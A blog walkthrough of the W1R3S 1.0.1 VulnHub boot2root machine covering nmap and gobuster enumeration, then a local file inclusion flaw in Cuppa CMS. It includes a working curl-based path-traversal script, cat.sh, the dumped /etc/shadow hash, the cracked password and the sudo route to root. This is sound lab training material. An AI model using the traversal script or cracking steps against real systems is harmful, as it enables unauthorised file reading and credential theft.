 ```yaml
---
layout: post
modifed: 2018-06-07 17:03:45 +0000
title: "Walkthrough — W1R3S: 1.0.1"
category: Walkthrough
tags: [VulnHub, W1R3S]
comments: true
image:
  feature: w1r3s-1.0.1-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/halloween-ghosts-happy-halloween-1746354/
---
```


This post documents the complete walkthrough of W1R3S: 1.0.1, a boot2root [VM][1] created by SpecterWires, and hosted at [VulnHub][2]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Someone hires you to do a penetration test on the W1R3S.inc individual server and report all findings. They ask you to gain `root` access and find the flag (located in `/root` directory).

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.100.130
...
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:21 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:25 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28 16:53 new-employees
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|_  256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
```

As usual, let's go with directory/file enumeration on the web service and see what we get.

### Directory/File Enumeration

I like to use `gobuster` with one of the big directory wordlists.

```
Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.100.130/
[+] Threads      : 10
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded     : true
=====================================================
http://192.168.100.130/administrator (Status: 301)
http://192.168.100.130/javascript (Status: 301)
http://192.168.100.130/wordpress (Status: 301)
=====================================================
```

OK. We find two interesting directories: `administrator` and `wordpress`.

### Cuppa CMS

The `administrator` directory turns out to be the installation setup for Cuppa CMS. This is how it looks like when I point the browser to `/administrator`.

![screenshot-1](/assets/images/posts/w1r3s-walkthrough/screenshot-1.png)

According to the official [documentation](https://www.cuppacms.com/en/docs/installation), in order for the installation to complete, it will have to create the database first.

>Remember, the database should be created before to install Cuppa CMS.

The Cuppa CMS installation was never completed in the first place or I'll not be seeing the setup page. I downloaded a [copy](http://cuppacms.com/files/cuppa_cms.zip) of the Cuppa CMS code to see if I can discover any vulnerabilities.

I'm not sure if this is a new vulnerability but it's a pleasant surprise to find an LFI vulnerability in `alertConfigField.php` at line 77.

![screenshot-2](/assets/images/posts/w1r3s-walkthrough/screenshot-2.png)

To test it, I wrote `cat.sh`, a simple script that will display any file as long as there's permission to do so.

{% highlight bash linenos %}
#!/bin/bash

_HOST=192.168.100.130
_PATH=administrator/alerts/alertConfigField.php
_PARM=urlConfig
_TRAV=../../../../../../../..

curl -s --data-urlencode "${_PARM}=${_TRAV}$1" $_HOST/$_PATH \
| sed -r 's/^ {8}//' \
| sed '71,$!d' \
| sed '$d' \
| sed '$d'
{% endhighlight %}

Let's give it a shot and see what we get.

```
# ./cat.sh /etc/passwd
...
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:122:129:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:123:130:MySQL Server,,,:/nonexistent:/bin/false
```
Imagine my surprise when I request for `/etc/shadow` and it shows up in the output.

```
# ./cat.sh /etc/shadow
...
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
```

I'm not sure if `/etc/shadow` is intentionally made world-readable; it should not be the case.

### John the Ripper

With both `passwd` and `shadow` available, I can `unshadow` them, and send them to `john` for offline cracking with a wordlist like "rockyou".

The cracking completes in seconds.

```
# john --format=crypt --show hashes.txt
w1r3s:computer:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
```

I can now log in to the box via SSH with the cracked password.

![screenshot-3](/assets/images/posts/w1r3s-walkthrough/screenshot-3.png)

### Privilege Escalation

It isn't long before I see that `w1r3s` is on the `sudoers` list.

![screenshot-4](/assets/images/posts/w1r3s-walkthrough/screenshot-4.png)

Becoming `root` is another command away.

![screenshot-5](/assets/images/posts/w1r3s-walkthrough/screenshot-5.png)

:dancer:

### Afterthought

To be honest, I didn't even bother with WordPress. :stuck_out_tongue_winking_eye:

[1]: https://www.vulnhub.com/entry/w1r3s-101,220/
[2]: https://www.vulnhub.com

*[LFI]: Local File Inclusion
